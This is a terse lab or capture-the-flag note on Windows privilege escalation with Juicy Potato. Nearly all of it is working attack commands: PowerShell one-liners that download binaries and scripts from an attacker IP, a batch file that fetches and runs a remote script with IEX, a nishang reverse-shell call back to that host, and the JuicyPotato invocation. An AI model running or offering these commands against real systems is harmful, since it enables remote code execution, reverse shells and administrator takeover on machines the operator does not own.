



juicy potato
Juicy Potato requires 3 steps to run manually:1)upload juicy potato to our victim,
2)upload a batch script we can write locally to our victim for juicy potato to run as administrator when it executes
3)run juicy potato
1)
powershell IEX(new-object net.webclient).downloadfile('http://10.10.14.62:5555/jp.exe','C:\Users\Destitute\Desktop\jp.exe')
and make a copy of our nishang shell and configure the Invoke-PowerShellTcp command to connect to a different numbered port
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.62 -Port 9002


2)

@ECHO OFF
PowerShell.exe -Command "IEX(new-object net.webclient).downloadstring('http://10.10.14.62:5555/revshell2.ps1')"
PAUSE

download this bat to the victim
powershell IEX(new-object net.webclient).downloadfile('http://10.10.14.62:5555/shell.bat','C:\Users\Destitute\Desktop\shell.bat')
3)
./jp.exe -t * -p shell.bat -l 9001

this error usually means the CLSID or the software application's class identifier errored out, there are many to choose from on the juicy potato github repository